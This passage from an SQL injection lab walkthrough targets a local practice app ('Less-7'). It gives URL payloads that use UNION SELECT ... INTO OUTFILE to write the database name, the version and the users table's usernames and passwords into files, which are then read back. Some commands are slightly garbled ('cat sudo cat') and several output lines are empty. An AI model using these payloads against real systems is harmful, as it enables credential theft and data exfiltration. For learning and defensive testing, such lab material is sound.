

Injecting on the browser
We're going to try the previous section on the browser.
a) Checking the “outfile” function.
QUERY: select 1,2,3 into outfile '/var/lib/mysql-files/union.txt';
URL: http://localhost/Less-7/?id=2')) union select 1,2,3 into outfile ‘/var/lib/mysql-files/union.txt’ --+

Result: We got an error but the file is created.
If you show the file.
$ cat sudo cat /var/lib/mysql-files/union.txt
Output:
b) Checking database() and version().
QUERY: select 1,database(), version() into outfile '/var/lib/mysql-files/union1.txt';
URL: http://localhost/Less-7/?id=-2')) union select 1,database(), version() into outfile ‘/var/lib/mysql-files/union1.txt’ --+
Output:
Result: We got an error but the file is created.
If you show the file.
$ cat sudo cat /var/lib/mysql-files/union1.txt
Output:
1 security 8.0.22-0ubuntu0.20.04.3
c) Checking usernames and passwords.
QUERY: select 1,username, password from users into outfile '/var/lib/mysql-files/union2.txt';
URL: http://localhost/Less-7/?id=-2')) union select 1,username, password from users into outfile '/var/lib/mysql-files/union2.txt' --+
Output:
Result: We got an error but the file is created.
If you show the file.
$ cat sudo cat /var/lib/mysql-files/union2.txt
Output: